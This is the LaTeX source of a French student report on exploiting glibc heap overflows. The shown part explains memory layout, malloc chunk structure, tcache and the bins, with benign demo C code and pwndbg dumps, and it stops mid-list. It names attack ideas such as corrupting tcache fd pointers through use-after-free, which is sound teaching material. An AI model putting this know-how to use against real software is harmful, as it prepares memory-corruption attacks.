% =============================================================================
% Exploitation of Heap Overflows in 2026
% University Project Report
% =============================================================================
\documentclass[12pt, a4paper]{article}

% --- Encoding & Language ---
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[french]{babel}
\usepackage{amsmath}

% --- Layout ---
\usepackage[margin=1.5cm, headheight=16pt]{geometry}
\usepackage{setspace}
\onehalfspacing
\usepackage{parskip}
\usepackage[moderate]{savetrees}

% --- Typography & Fonts ---
\usepackage{lmodern}
\usepackage{amssymb}
\usepackage{microtype}

% --- Headers / Footers ---
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\leftmark}
\fancyhead[R]{\thepage}
\renewcommand{\headrulewidth}{0.4pt}

% --- Source Code (C, Python, shell) ---
\usepackage{listings}
\usepackage{xcolor}

\definecolor{codebg}{HTML}{F5F5F5}
\definecolor{codeframe}{HTML}{CCCCCC}
\definecolor{codekw}{HTML}{0000CC}
\definecolor{codecomment}{HTML}{008000}
\definecolor{codestring}{HTML}{A31515}
\definecolor{codenum}{HTML}{098658}

\lstdefinestyle{cstyle}{
    language=C,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    basicstyle=\ttfamily\small,
    keywordstyle=\color{codekw}\bfseries,
    commentstyle=\color{codecomment}\itshape,
    stringstyle=\color{codestring},
    numberstyle=\tiny\color{codenum},
    numbers=left,
    numbersep=8pt,
    breaklines=true,
    breakatwhitespace=false,
    tabsize=4,
    showstringspaces=false,
    captionpos=b,
    xleftmargin=1.5em,
    framexleftmargin=1.5em,
    columns=flexible,
    morekeywords={size_t, uint64_t, uint8_t, intptr_t, uintptr_t, NULL, malloc_chunk},
}

\lstdefinestyle{pythonstyle}{
    language=Python,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    basicstyle=\ttfamily\small,
    keywordstyle=\color{codekw}\bfseries,
    commentstyle=\color{codecomment}\itshape,
    stringstyle=\color{codestring},
    numberstyle=\tiny\color{codenum},
    numbers=left,
    numbersep=8pt,
    breaklines=true,
    tabsize=4,
    showstringspaces=false,
    captionpos=b,
    xleftmargin=1.5em,
    framexleftmargin=1.5em,
    columns=flexible,
}

\lstdefinestyle{shellstyle}{
    language=bash,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeframe},
    basicstyle=\ttfamily\small,
    keywordstyle=\color{codekw}\bfseries,
    commentstyle=\color{codecomment}\itshape,
    numbers=none,
    breaklines=true,
    tabsize=4,
    showstringspaces=false,
    captionpos=b,
    xleftmargin=1.5em,
    framexleftmargin=1.5em,
    columns=flexible,
}

\lstset{style=cstyle}

% --- Style pwndbg ---
\usepackage[cachedir=.minted-cache]{minted}

% 3. Charger tcolorbox
\usepackage[breakable]{tcolorbox}
\tcbuselibrary{minted, skins}
%%%\usepackage{xcolor}

% Terminal color palette
% --- Couleurs déjà définies ---
\definecolor{pwndbgbg}{HTML}{1E1E1E}
\definecolor{pwndbgframe}{HTML}{2D2D2D}
\definecolor{pwndbgred}{HTML}{E06C75}      % size
\definecolor{pwndbgtext}{HTML}{ABB2BF}
\definecolor{pwndbgblue}{HTML}{61AFEF}     % fd
\definecolor{pwndbggreen}{HTML}{98C379}    % payload
\definecolor{pwndbgdarkgreen}{HTML}{1B7F3A}    % old payload

% --- Nouvelles couleurs pour ton code couleur ---
\definecolor{pwndbgbrown}{HTML}{C19A6B}    % prev_size (brun)
\definecolor{pwndbgpurple}{HTML}{C678DD}   % fd_nextsize (violet)
\definecolor{pwndbgyellow}{HTML}{E5C07B}   % bk (jaune)
\definecolor{pwndbgorange}{HTML}{D19A66}   % bk_nextsize (orange)



% Usage: \begin{pwndbg}[title]{language} ... \end{pwndbg}
%   #1 = optional title shown after "pwndbg>" in the header (default: empty)
%   #2 = minted language: text, nasm, c, python, etc.
%   Use |\textcolor{pwndbgblue}{...}| inside the body for inline color via escapeinside
\newtcblisting{pwndbg}[2][]{%
    listing engine=minted,
    minted style=fruity,
    minted language=#2,
    minted options={fontsize=\footnotesize, breaklines, autogobble, escapeinside=!!},
    colback=pwndbgbg,
    colframe=pwndbgframe,
    colupper=pwndbgtext,
    boxrule=1.2pt,
    arc=3pt,
    left=6pt, right=4pt, top=4pt, bottom=4pt,
    drop shadow=black!30!white,
    title={\textcolor{pwndbgred}{\textbf{pwndbg>}} \texttt{#1}},
    fonttitle=\bfseries\ttfamily\small,
    coltitle=white,
    colbacktitle=pwndbgframe,
    listing only,
    enhanced,
    breakable=true,
}

% --- Images & Figures ---
\usepackage{graphicx}
\usepackage{float}
\graphicspath{{./images/}}

% --- Tables ---
\usepackage{booktabs}
\usepackage{array}
\usepackage{longtable}

% --- Hyperlinks ---
\usepackage[
    colorlinks=true,
    linkcolor=blue!60!black,
    citecolor=green!40!black,
    urlcolor=blue!70!black,
]{hyperref}

% --- Bibliography ---
\usepackage[nottoc]{tocbibind}

% --- Misc ---
\usepackage{enumitem}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{tikz}
\usetikzlibrary{calc,positioning,arrows.meta,decorations.pathreplacing}

% --- TODO command for empty sections ---
\newcommand{\todo}[1]{\textcolor{red!70!black}{\textbf{[TODO: #1]}}}
\newcommand{\fillhere}{\todo{Write this section}}


\newcommand{\vp}{\vspace{11pt}}

% ------- Biblio ----------
\usepackage[
    backend=biber,
    style=alphabetic,
    sorting=none
]{biblatex}

\addbibresource{refs-doc.bib}



% Décommente la ligne suivante pour ne compiler QUE la section en cours
% \includeonly{sections/01_rappels}
% \includeonly{sections/02_malloc}
% \includeonly{sections/03_analyse}
% \includeonly{sections/04_exploitation1}
% \includeonly{sections/04_exploitation2}
% \includeonly{sections/04_exploitation3}
% \includeonly{sections/04_exploitation4}
% \includeonly{sections/04_exploitation5}
% \includeonly{sections/05_biblio}

% =============================================================================
\begin{document}

% --- Title ---
\title{
    
\includegraphics[width=0.4\textwidth]{logo_univ_bdx.png}\\[1.5cm]
    \textbf{Exploitation des Heap Overflows en 2026}
}
\author{Arnaud Gomes \& Kamiel De Vos \\ Université de Bordeaux}
\date{\today}
\maketitle
\thispagestyle{empty}
\newpage

% --- Table of Contents ---
\tableofcontents
\newpage

\section{Rappels}

\subsection{Processus}

Lorsqu'un programme est lancé, le système d'exploitation crée un processus. Avant même d'exécuter le code de l'utilisateur, ce processus se voit attribuer un espace d'adressage virtuel.  
On peut, de manière simplifiée, considérer que cet espace est organisé en cinq zones principales (en réalité, il en existe davantage) :

\begin{itemize}
  \item \textbf{Code} : contient le binaire exécutable. Cette zone est généralement en lecture seule et peut être partagée entre plusieurs processus exécutant le même programme.
  
  \item \textbf{Données} : regroupe les variables globales et statiques, qu'elles soient initialisées ou non. Elles sont allouées lors du chargement du programme.
  
  \item \textbf{Tas (Heap)} : zone de mémoire dynamique utilisée par \texttt{malloc}/\texttt{free}. Elle commence à l'adresse définie par l'appel système \texttt{brk} et peut s'étendre. Pour les allocations volumineuses, \texttt{malloc} utilise plutôt \texttt{mmap}.
  
  \item \textbf{Bibliothèque C (libc)} : code partagé (libc.so, ld.so) chargé dynamiquement, évitant la duplication du code entre les processus.
  
  \item \textbf{Pile (Stack)} : zone de taille dynamique (souvent limitée à environ 8~Mo sous Linux) contenant les appels de fonctions, les arguments et les variables locales.
\end{itemize}

\begin{figure}[H]
\centering
\begin{tikzpicture}[
    node distance = 0cm,
    membox/.style = {
        draw, 
        minimum width=4cm, 
        minimum height=1cm, 
        outer sep=0pt, 
        font=\sffamily\footnotesize\bfseries,
        fill=white
    },
    labelstyle/.style = {
        font=\sffamily\scriptsize\itshape, 
        text=gray
    },
    bracestyle/.style = {
        decorate, 
        decoration={brace, amplitude=5pt, raise=2pt},
        thick
    },
    descstyle/.style = {
        midway, 
        right=8pt, 
        align=left, 
        font=\scriptsize\ttfamily
    }
]

% --- Adresses ---
\node[labelstyle] (highAddr) at (0, 7.5) {0xFF...FF};
\node[labelstyle] (lowAddr) at (0, -1.0) {0x00...00};

% --- Segments de Mémoire ---
\node[membox, fill=orange!10] (stack) at (0, 6.5) {Stack (Pile)};
\node[membox, fill=blue!5] (libs) at (0, 4.5) {Shared Libraries};
\node[membox, fill=green!10] (heap) at (0, 2.5) {Heap (Tas)};
\node[membox, fill=gray!10] (data) at (0, 1.4) {Data / BSS};
\node[membox, fill=gray!20] (code) at (0, 0.2) {Code (Text)};

% --- Espaces vides (Pointillés) ---
\draw[dashed, gray] (stack.south west) -- (libs.north west);
\draw[dashed, gray] (stack.south east) -- (libs.north east);
\draw[dashed, gray] (libs.south west) -- (heap.north west);
\draw[dashed, gray] (libs.south east) -- (heap.north east);

% --- Flèches de croissance ---
\draw[-{Stealth[scale=1.2]}, thick, orange!80!black] 
    (stack.south) -- ++(0,-0.8) 
    node[midway, left, xshift=-2pt, font=\footnotesize\itshape] {Croissance};

\draw[-{Stealth[scale=1.2]}, thick, green!60!black] 
    (heap.north) -- ++(0,0.8) 
    node[midway, left, xshift=-2pt, font=\footnotesize\itshape] {Croissance};

% --- Accolades et Descriptions (à droite) ---
\draw[bracestyle] (stack.north east) -- (stack.south east)
    node[descstyle] {Variables locales\\Appels fonctions};

\draw[bracestyle] (libs.north east) -- (libs.south east)
    node[descstyle] {Bibliothèques liées\\(libc.so, ld.so)};

\draw[bracestyle] (heap.north east) -- (heap.south east)
    node[descstyle] {Allocation dynamique\\malloc / free};

\draw[bracestyle] (data.north east) -- (data.south east)
    node[descstyle] {Variables globales\\et statiques};

\draw[bracestyle] (code.north east) -- (code.south east)
    node[descstyle] {Binaire exécutable\\(Lecture seule)};

\end{tikzpicture}
\end{figure}

Lors de l'initialisation de la heap, avant même qu'un seul appel à \texttt{malloc} ne soit effectué par le programme utilisateur, le système d'exploitation réalise un appel système \texttt{brk()} afin d'établir la zone initiale du tas.  
À ce stade, cette zone est pratiquement vide : elle ne contient aucun espace réellement utilisable pour les allocations dynamiques.  
Elle pourra ensuite être étendue au fur et à mesure des besoins, notamment via les appels à \texttt{malloc}, qui ajustent la limite supérieure du tas ou, pour les allocations volumineuses, utilisent directement \texttt{mmap}.

\subsection{Interactions avec le noyau : les appels système}

L'allocateur de la Libc ne possède pas de mémoire propre. Il agit comme un gestionnaire qui réclame des pages au noyau Linux via des appels système spécifiques. La compréhension de ces mécanismes est indispensable pour l'exploitation de la heap, car ils définissent les limites physiques et le comportement de nos débordements.

\paragraph{Le segment de données et brk()}
Le tas (\textit{heap}) est traditionnellement étendu de manière contiguë. L'appel système \texttt{brk()} permet de déplacer le \textit{program break}, qui marque la fin du segment de données du processus. L'allocateur utilise ce mécanisme pour les petites et moyennes allocations afin de maintenir une localité de cache optimale au sein de l'arène principale.

\paragraph{Allocations anonymes et mmap()}
Pour les requêtes volumineuses (supérieures au seuil \texttt{MMAP\_THRESHOLD}, généralement \textbf{128 Ko}), \texttt{malloc} utilise \texttt{mmap()} pour créer une zone de mémoire virtuelle indépendante. Contrairement au segment géré par \texttt{brk()}, ces zones sont allouées dans l'espace situé entre la pile et le tas. Elles sont totalement désolidarisées de l'arène principale, ce qui signifie qu'un heap overflow sur un chunk \texttt{mmap} ne pourra pas corrompre les métadonnées des bins classiques que nous analyserons plus loin.

\subsection{Protections système : l'ASLR et son contexte d'analyse}
L'une des barrières majeures à l'exploitation en 2026 est la randomisation de l'espace d'adressage (ASLR). Cette protection fait varier l'adresse de base de la pile, de la Libc et du tas à chaque lancement du programme. L'attaquant doit alors obtenir une "fuite mémoire" (\textit{leak}) pour recalculer les adresses réelles des fonctions cibles ou des métadonnées de l'allocateur.

\paragraph{Observation durant le développement}
Il est important de noter que, lors de nos phases de tests avec \texttt{gdb} et l'extension \texttt{pwndbg}, l'ASLR est \textbf{désactivé par défaut}. Ce comportement est voulu pour faciliter le débogage et l'analyse de la structure de la mémoire en rendant les adresses prévisibles d'une exécution à l'autre. Cependant, dans un scénario d'attaque réel sur un binaire distant ou protégé, cette sécurité est active et force l'attaquant à adapter ses techniques (comme nous le verrons dans la section sur le \textit{Tcache Poisoning}).
% =============================================================================
% CHAPTER II - MALLOC 
% =============================================================================
\section{Malloc}

% -----------------------------------------------------------------------------
\subsection{Comment fonctionne \texttt{malloc}}

\texttt{malloc} est une fonction de la bibliothèque standard C chargée d'allouer de la mémoire dynamique dans le tas (heap).
Le code source de \texttt{malloc} est disponible dans \texttt{glibc}, accessible sur le site \url{https://sourceware.org}.

\vp

Lorsque vous appelez \texttt{malloc(num)}, vous demandez au système d'exploitation
de réserver une zone mémoire dans l'espace du processus, plus précisément dans la
région dédiée au tas.
L'argument passé à \texttt{malloc} correspond au nombre d'octets souhaités.

En pratique, l'appel à \texttt{malloc} est géré par l'allocateur \texttt{ptmalloc2}.
Cet allocateur est le gestionnaire mémoire utilisé par \texttt{glibc} pour les
programmes C. Lorsqu'un programme a besoin de mémoire, il invoque
\texttt{malloc()}, et lorsqu'il n'en a plus besoin, il appelle \texttt{free()}
pour libérer l'espace.

En arrière‑plan, \texttt{ptmalloc2} obtient de grands blocs de mémoire auprès
du noyau via des appels système tels que \texttt{brk()} (pour étendre la zone
principale du tas) ou \texttt{mmap()} (pour les allocations de grande taille).
Pour optimiser les performances, \texttt{ptmalloc2} ne renvoie pas immédiatement
la mémoire libérée au système lors d'un appel à \texttt{free()}.
À la place, il conserve les blocs libérés dans des structures internes
(comme les \emph{bins} et le \emph{tcache}), ce qui lui permet de réattribuer
rapidement ces blocs lors d'un prochain appel à \texttt{malloc()}.

Ce mécanisme de réutilisation efficace constitue également une surface d'attaque
privilégiée pour les exploitations de vulnérabilités liées au tas.

\texttt{malloc} a également la possibilité de scinder un chunk lorsqu’il est plus grand
que la taille demandée. Dans ce cas, l’allocateur découpe le chunk trouvé en deux~:
il construit un premier chunk de la taille requise, qui est retourné à l’utilisateur,
puis place le chunk restant dans l’unsorted~bin afin qu’il puisse être réutilisé
ultérieurement.


% ----------------------------------------------------------------------------- 
\subsection{Anatomie d'un Chunk}

La mémoire gérée par l'allocateur est divisée en blocs appelés « chunks ». Un chunk stocke les données de l'utilisateur, mais intègre également des métadonnées internes indispensables à \texttt{ptmalloc2}. La structure physique de ce bloc change radicalement selon qu'il est alloué ou libre.

Pour prouver ce comportement dynamique, nous utilisons le code de démonstration suivant :

\vp

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdlib.h>
#include <string.h>

int main() {
    // Allocation de 0x30 octets. La GLIBC ajoute un en-tête de 0x10 octets.
    // La taille physique réelle du chunk sera de 0x40 octets.
    char *chunk_a = malloc(0x30);
    strcpy(chunk_a, "AAAA"); // Remplissage avec des données utilisateur
    /* --- [BREAKPOINT 1 : Chunk Alloué] --- */
    free(chunk_a);
    /* --- [BREAKPOINT 2 : Chunk Libéré (Tcache)] --- */
    
    return 0;
}
\end{minted}

\subsubsection{Structure d'un Chunk Alloué}

Lorsqu'un chunk est en cours d'utilisation, l'allocateur se contente de stocker sa taille dans l'en-tête. Le reste de l'espace est purement dédié à l'utilisateur. En raison des contraintes d'alignement matériel (16 octets sur les architectures 64 bits), la taille minimale absolue d'un chunk est de 32 octets. Toute demande est automatiquement arrondie au multiple de 16 supérieur.

Si nous observons la mémoire au \textbf{breakpoint 1}, nous constatons que l'en-tête contient la taille (\texttt{0x41}, soit 0x40 + le bit \texttt{PREV\_INUSE}), immédiatement suivie de notre chaîne de caractères « AAAA » (\texttt{0x41414141}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{malloc_chunk_layout.png}
    \caption{Structure d'un chunk alloué}
    \label{fig:malloc_chunk_layout}
\end{figure}

\begin{pwndbg}[x/4gx chunk\_a - 0x10]{text}
    0x555555559290: 0x0000000000000000 !\textcolor{pwndbgred}{0x0000000000000041}!
    0x5555555592a0: !\textcolor{pwndbgtext}{0x0000000041414141}! 0x0000000000000000
\end{pwndbg}


\subsubsection{Structure d'un Chunk Libéré}

Au moment du \texttt{free()}, les données utilisateur n'ont plus d'utilité. L'allocateur recycle instantanément cet espace pour y injecter des pointeurs de gestion, ce qui permet d'insérer le bloc dans une liste d'attente (les « bins »).

Le premier pointeur inséré (\texttt{fd} pour \textit{forward}) indique l'adresse du prochain bloc libre. Dans les attaques modernes ciblant le Tcache, tout l'enjeu est d'utiliser une vulnérabilité (comme un \textit{Use-After-Free}) pour corrompre ce pointeur \texttt{fd} et détourner la liste chaînée vers une adresse arbitraire. Les chunks très volumineux (\texttt{largebins}) possèdent des pointeurs supplémentaires (\texttt{fd\_nextsize}), mais ces champs n'existent pas dans les petites structures.

Si nous observons la mémoire au \textbf{breakpoint 2}, nous voyons que nos données utilisateur (« AAAA ») ont été écrasées par les métadonnées de la GLIBC :

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{free_chunk_layout.png}
    \caption{Structure d'un chunk libéré}
    \label{fig:free_chunk_layout}
\end{figure}

\begin{pwndbg}[x/4gx chunk\_a - 0x10]{text}
    0x555555559290: 0x0000000000000000 !\textcolor{pwndbgred}{0x0000000000000041}!
    0x5555555592a0: !\textcolor{pwndbgblue}{0x0000000555555559}! !\textcolor{pwndbggreen}{0xafc0e29aec2de325}!
\end{pwndbg}

\paragraph{Différence de métadonnées : Tcache vs Fastbin}
Comme illustré ci-dessus, la GLIBC écrit deux valeurs lorsqu'un chunk atterrit dans le Tcache : le pointeur \texttt{fd} (\textcolor{pwndbgblue}{Bleu}, protégé par le \textit{Safe Linking}) et la \texttt{key} anti-double-free (\textcolor{pwndbggreen}{Vert}).

Il est crucial de noter que si le chunk est dirigé vers un Fastbin, \textbf{le pointeur \texttt{key} n'est jamais instancié}. Les Fastbins ne s'appuient que sur le pointeur \texttt{fd}, limitant leur protection anti-double-free à une simple vérification du sommet de la liste.

% ----------------------------------------------------------------------------- 
\subsection{Bins et Mécanismes de Recyclage}

Lorsque l'espace est libéré, l'allocateur doit le ranger intelligemment pour répondre rapidement aux futures requêtes \texttt{malloc}. La GLIBC utilise une hiérarchie stricte de listes (les bins), de la plus rapide (mais moins sécurisée) à la plus complexe.

\subsubsection{Tcache --- Thread-local Cache}

Introduit pour accélérer drastiquement les allocations multithreads,
le Tcache intercepte l’ensemble des chunks dont la taille est inférieure à 0x410,
c’est‑à‑dire tous ceux plus petits que le largebin, à l’exception de la première classe.
Il est ainsi devenu la surface d’attaque numéro un.

Il s’agit d’une liste simplement chaînée fonctionnant en LIFO (Last-In, First-Out),
capable de stocker jusqu’à 7 chunks par index de taille.
Il peut y avoir jusqu’à 64 listes de chunks.
Son fonctionnement correspond exactement au dump mémoire analysé précédemment,
et il est défini formellement par la structure interne suivante :

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
// Structure interne d'une entrée Tcache (glibc 2.41)
typedef struct tcache_entry { 
    struct tcache_entry *next;           /* Pointeur obfusqué (Safe Linking) */ 
    struct tcache_perthread_struct *key; /* Clé anti-double-free */ 
} tcache_entry; 
\end{minted}

\subsubsection{Bins}

Il existe quatre types de bins :
\begin{itemize}
    \item \textbf{Fastbins} $\rightarrow$ listes simplement chaînées
    \item \textbf{Smallbins} $\rightarrow$ listes doublement chaînées
    \item \textbf{Largebins} $\rightarrow$ listes doublement chaînées
    \item \textbf{Unsorted bin} $\rightarrow$ liste doublement chaînée
\end{itemize}

La principale différence entre ces bins (à l'exception de l'unsorted bin) réside dans la
plage de tailles des chunks qu'ils contiennent.
Ces tailles changent en fonction de la version de la glibc.
Les chiffres donnés après sont valables à partir de la version 2.26 (2017).

\noindent Les fastbins ne réalisent pas de \textit{consolidation}, contrairement aux smallbins et largebins.

\textbf{La consolidation} intervient à deux moments depuis glibc~2.27.
Elle peut se produire lors de la libération d’un chunk, ou lors de
l’allocation d’un chunk de grande taille (supérieur à \texttt{0x3f0}),
ce qui force l’allocateur à appeler \texttt{malloc\_consolidate}.
Cette fonction examine alors les chunks adjacents en mémoire et fusionne
ceux qui sont libres et ne se trouvent pas dans le tcache. Le chunk
résultant est placé dans l’unsorted~bin lorsqu’il provient d’un
\texttt{free}, ou directement rangé dans le bin approprié lorsqu’il est
créé au cours d’une allocation de grande taille.


L'ordre de recherche dans les bins est le suivant :


\[
    \texttt{tcache} \rightarrow \texttt{fastbins} \rightarrow \texttt{unsorted bin} \rightarrow \texttt{smallbins} \rightarrow \texttt{largebins}.
\]



\vp

\noindent\textbf{Unsorted Bin}\\
L'unsorted bin est une structure \textbf{FIFO}.
Les chunks y sont placés lorsqu'ils sont libérés et qu'ils ne vont ni dans le tcache
ni dans les fastbins, ou lorsque le tcache est plein ou que la taille du chunk dépasse
la limite du tcache (\texttt{0x410}).
Les nouveaux chunks sont insérés en tête de liste.

Lors d'une allocation, l'unsorted bin est parcouru après le tcache et les fastbins.
Il est traversé du plus ancien au plus récent : le chunk le plus récemment libéré est
donc vérifié en dernier.
Si un chunk de taille compatible est trouvé, il est immédiatement retourné.
Les chunks qui ne correspondent pas à la taille demandée sont réinsérés dans leur
smallbin ou largebin respectif.

\vp

\noindent\textbf{Fastbins}\\
Les fastbins sont des structures \textbf{LIFO}.
Ils contiennent des chunks de taille comprise entre \texttt{0x20} et \texttt{0x80},
répartis en 7 classes espacées de \texttt{0x10}.
Aucune recherche n'est nécessaire, les fastbins sont déjà triés par taille, et
l'allocation consiste simplement à retirer le chunk en tête de liste.
De plus, un chunk n'entre dans un fastbin que par le biais d'un \texttt{free()}.
Autrement dit, lorsqu'une consolidation se produit, le chunk résultant ne peut plus
retourner dans le fastbin ; il est redirigé vers l'unsorted bin ou un smallbin.

\vp

\noindent\textbf{Smallbins}\\
Les smallbins sont des structures \textbf{FIFO} contenant des chunks de taille comprise
entre \texttt{0x90} et \texttt{0x3f0}, espacés de \texttt{0x10}.
Un chunk n'est ajouté à un smallbin qu'après être passé par l'unsorted bin.
Lors de son insertion, le premier quadword de la zone utilisateur est réutilisé comme
pointeur avant (\texttt{fd}) et le second comme pointeur arrière (\texttt{bk}).

\vp

\noindent\textbf{Largebins}\\
Les largebins sont également \textbf{FIFO} et contiennent des chunks de taille comprise
entre \texttt{0x400} et le seuil \texttt{mmap} (par défaut \texttt{0x20000}, soit 128~Ko).
Au-delà de ce seuil, \texttt{malloc()} contourne entièrement les bins et demande
directement une page anonyme au noyau via \texttt{mmap()}.
Les largebins sont répartis en 63 bins, chacun couvrant une plage de tailles.

Par exemple, le largebin \texttt{0x400} contient les chunks de \texttt{0x400} à
\texttt{0x430}, tandis que le largebin \texttt{0x2000} contient ceux de
\texttt{0x2000} à \texttt{0x21f0}.

À l'intérieur d'un largebin, les chunks sont triés par taille décroissante :
le plus grand est accessible via \texttt{fd}, le plus petit via \texttt{bk}.
Lors de l'insertion, le premier quadword utilisateur est utilisé comme \texttt{fd},
le second comme \texttt{bk}.

Les largebins maintiennent également une structure secondaire appelée \textit{nextsize},
qui relie entre eux les premiers chunks de chaque taille distincte dans un même bin.
Le chunk « skip‑list » d'une taille donnée utilise ses troisième et quatrième quadwords
comme \texttt{fd\_nextsize} et \texttt{bk\_nextsize}.
Les chunks supplémentaires de même taille sont insérés après ce chunk spécial, ce qui
évite de modifier les pointeurs nextsize.

Un exemple d'utilisation de \texttt{bk\_nextsize} apparaît lorsque \texttt{malloc()}
recherche un chunk légèrement plus petit après avoir échoué à trouver une correspondance
exacte.
Si la taille demandée est \texttt{0x2100} et que le largebin contient des chunks de
\texttt{0x2400}, \texttt{0x2200} et \texttt{0x2000}, \texttt{malloc()} peut suivre
\texttt{bk\_nextsize} depuis le chunk \texttt{0x2400} pour atteindre rapidement
\texttt{0x2200}, sans parcourir linéairement tout le bin.

\section{Analyse pratique de la heap}
\label{sec:Analyse_du_tas}

Vérifions ce que nous venons de dire précédemment.

Vous pouvez maintenant lancer ce programme avec pwndbg.
L'idée de ce code est d'observer les différentes "bin" et les métadonnées des chunks.

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define TCACHE_MAX 7

void fill_tcache(size_t size){
    void *ptrs[7];
    for (unsigned i = 0; i < TCACHE_MAX; i++)
        ptrs[i] = malloc(size);
    for (unsigned i = 0; i < TCACHE_MAX; i++)
        free(ptrs[i]);
}

int main(){

    // Tcache
    void *t1 = malloc(0x40), *t2 = malloc(0x100), *t3 = malloc(0x400);
    strcpy(t1, "T1T1T1T1"); // T = 0x54 et 1 = 0x31
    free(t1), free(t2),  free(t3);

    // Fastbin
    void *f_min = malloc(0x10),*g1 = malloc(0x30);
    void *f_max = malloc(0x70),*g2 = malloc(0x30);

    strcpy(f_max, "FFFFFFFFFFFFFFFFFFFFFFFF"); // F = 0x46

    fill_tcache(0x10); fill_tcache(0x70);

    free(f_min); free(f_max);

    // Smallbin
    void *s_min = malloc(0x80), *g3 = malloc(0x30);
    void *s_max = malloc(0x3e0), *g4 = malloc(0x30);

    strcpy(s_max, "SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS"); // S = 0x53

    fill_tcache(0x80); fill_tcache(0x3e0);

    free(s_min); free(s_max);

    // Largebin
    void *l_min = malloc(0x3f0);

    fill_tcache(0x3f0);

    strcpy(l_min, "LLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLL"); // S = 0x53

    free(l_min);
    malloc(0x410);

    return 0;
}


\end{minted}


\section*{Code couleur utilisé pour l'analyse des chunks \texttt{glibc}}

Afin de faciliter la lecture et l'analyse des structures internes du tas
(\textit{heap}) dans \texttt{glibc}, chaque champ d'un chunk est représenté
avec une couleur spécifique.
Ce code couleur permet d'identifier rapidement le rôle de chaque octet
dans les dumps mémoire.

\begin{itemize}
      \item \textcolor{pwndbgbrown}{\textbf{Brun — \texttt{prev\_size}}} :
            Taille du chunk précédent. Ce champ n'est utilisé que lorsque le bit
            \texttt{PREV\_INUSE} est à zéro.

      \item \textcolor{pwndbgred}{\textbf{Rouge — \texttt{size}}} :
            Taille du chunk courant, incluant les bits d'état
            (\texttt{PREV\_INUSE}, \texttt{IS\_MMAPPED}, \texttt{NON\_MAIN\_ARENA}).

      \item \textcolor{pwndbgblue}{\textbf{Bleu — \texttt{fd}}} :
            Pointeur vers le prochain chunk dans une liste chaînée
            (fastbins, smallbins, unsorted bin, etc.).

      \item \textcolor{pwndbgpurple}{\textbf{Violet — \texttt{fd\_nextsize}}} :
            Pointeur utilisé dans les \textit{large bins} pour maintenir un tri
            secondaire par taille.

